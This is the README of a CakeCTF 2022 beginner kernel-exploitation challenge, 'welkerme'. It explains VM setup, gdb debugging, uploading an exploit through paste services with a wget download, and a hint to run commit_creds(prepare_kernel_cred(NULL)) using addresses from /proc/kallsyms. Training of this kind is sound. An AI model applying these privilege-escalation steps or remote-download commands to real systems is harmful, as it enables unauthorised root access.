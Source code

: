 # welkerme
Welcome to Kernel Exploit!
In this challenge, you're going to learn how to escalate privilege in Linux kernel.
The goal is to read the flag written in `/root/flag.txt` on the remote server.

## First Step
### Setup
Install qemu, cpio, and some developer tools.
```
# apt install qemu-system cpio gcc gdb make
```

### Run
You can run VM with the following command:
```
$ make run
```

### Debug
You can also debug QEMU. First, run the VM by
```
$ make debug
```
and then attach to port 12345 with gdb.
```
$ gdb
gdb> target remote localhost:12345
```
If you can't use this port number for some reason,
you can change it by changing the last line of `debug.sh`.

## Developing Exploit
The OS is running a vulnerable kernel module.
```
[ welkerme - CakeCTF 2022 ]
/ $ lsmod
Module                  Size  Used by    Tainted: G  
driver                 16384  0
```
You can find the source code of this driver in `src/driver.c`.
Probably you should check `module_ioctl` function :)

Edit `exploit.c` to develop your exploit.

## Testing on Remote
If you successfully finish writing your exploit,
you can try it on the remote server.

### Proof-of-Work
You will be asked to solve a Proof-of-Work first.
```
$ nc pwn2.2022.cakectf.com 9999
hashcash -mb26 x3.lIBh9s
hashcash token: 
```
Open a new terminal and keep the connection of the PoW above.
Install `hashcash` if you don't have one.
```
# apt install hashcash
```
Run the command given by the server and you'll get something like this:
```
$ hashcash -mb26 x3.lIBh9s
hashcash token: 1:26:220902:x3.libh9s::7icDDK3+4NzsByUH:00000002pd8m
hashcash -mb26 x3.lIBh9s  5.79s user 0.00s system 99% cpu 5.797 total
```
You must send the token to get access to the challenge.
```
$ nc pwn2.2022.cakectf.com 9999
hashcash -mb26 x3.lIBh9s
hashcash token: 
1:26:220902:x3.libh9s::7icDDK3+4NzsByUH:00000002pd8m
...
```
Feel free to ask admin on Discord if you have any trouble about PoW.

### Sending Your Exploit
If you have your own server, you can simply download your exploit
from your server. (HTTP only!)
```
/ $ cd /tmp
/tmp $ wget http://<your server>/exploit
```

If you don't have your own server, you may use [sprunge](http://sprunge.us/)
or [termbin](http://termbin.com/).
First, upload your exploit to the server.
```
# sprunge
$ base64 exploit | curl -F 'sprunge=<-' http://sprunge.us
http://sprunge.us/XXXXXX

# termbin (File size must be small enough)
$ base64 exploit | nc termbin.com 9999
https://termbin.com/YYYY
```
As shown in the example above, use base64 or the file may corrupt.
Also, be noted that termbin only accepts small files. You can use [musl-gcc](https://www.musl-libc.org/how.html) to make a small binary if you choose to use termbin.
After finishing upload, you can download the exploit from the URL generated.
```
/ $ cd /tmp

# sprunge
/tmp $ wget http://sprunge.us/XXXXXX -O exploit.b64
/tmp $ base64 -d exploit.b64 > exploit
/tmp $ chmod +x exploit

# termbin (Change https to http!)
/tmp $ wget http://termbin.com/YYYY -O exploit.b64
/tmp $ base64 -d exploit.b64 > exploit
/tmp $ chmod +x exploit
```

## Hint
The function `func` in `exploit.c` is executed in the kernel space by `CMD_EXEC`.
Basically, you want to run the following code in the kernel space to escalate privilege.
```c
commit_creds(prepare_kernel_cred(NULL));
```
`prepare_kernel_cred(NULL)` creates a new credential with the highest privilege.
`commit_creds(cred)` applies the credential to the caller process.

You can find the address of each function in `/proc/kallsyms`. (Use debug mode)
```
/ # grep commit_creds /proc/kallsyms 
ffffffff81072540 T commit_creds
```
Good luck!

## Good Readings
I believe this challenge is the easiest kernel exploit.
If you're stuck, however, the following websites may help you.
Be noted these posts explain a bit more complex exploit than this challenge.

- [Learning Linux Kernel Exploitation](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/#the-simplest-exploit---ret2usr) by Midas (English)
- [Linux Kernel Exploit 内核漏洞学习(2)-ROP](https://bbs.pediy.com/thread-253377.htm#msg_header_h1_5) by 钞sir (Chinese)
- [PAWNYABLE!](https://pawnyable.cafe/linux-kernel/) by ptr-yudai (Japanese)
- [Exploit Tech: ret2usr](https://learn.dreamhack.io/82#t572) by Dreamhack (Korean)

Last but not least, Google search is always with you.
